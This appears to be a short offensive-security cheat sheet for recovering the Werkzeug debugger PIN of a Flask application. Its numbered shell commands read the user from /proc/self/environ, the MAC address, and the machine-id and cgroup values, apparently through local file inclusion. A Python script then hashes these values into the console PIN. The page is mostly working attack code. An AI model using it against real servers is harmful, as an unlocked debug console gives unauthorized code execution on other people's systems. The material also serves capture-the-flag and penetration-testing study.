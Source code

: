 ```yaml
---
title: "Retrieve Flask Debug Pin"
date: 2024-7-12
tags: ["python", "flask", "werkzeug", "debug", "LFI"]
---
```


### Retrieve Flask Debug Pin

#### 1. Get user

<div>

```console
cat /proc/self/environ | grep -aE ('USER'|'LOGNAME')
```

</div>

#### 2. Get full path of the application

<div>

```console
+------------------------------+
| Get from Traceback debug log |
+------------------------------+
```

</div>

#### 3. Get MAC address

<div>

```console
cat /sys/class/net/eth0/address
```

```console
# Convert to int
python3 -c "print(int('<MAC_ADDRESS>'.replace(':',''), 16))"
```

</div>

#### 4. Create Machine ID String

<div>

```console
echo $(cat /etc/machine-id)$(head -n 1 /proc/self/cgroup | rev | cut -d '/' -f1 | rev)
```

</div>

#### 5. Update public and private bits in Hacktrick's Script

<div>

```console
#!/usr/bin/env python3

import hashlib
from itertools import chain

probably_public_bits = [
    'user',       # username
    'flask.app',  # modname (should be flask.app)
    'Flask',      # Flask / wsgi_app / DebuggedApplication
    '/app/venv/lib/python3.10/site-packages/flask/app.py'  # full path of the app
]

private_bits = [
    '279275995014060',                  # Mac address
    'd4e6cb65d59544f3331ea0425dc555a1'  # machine_id string
]

h = hashlib.sha1()

for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

</div>

<br>
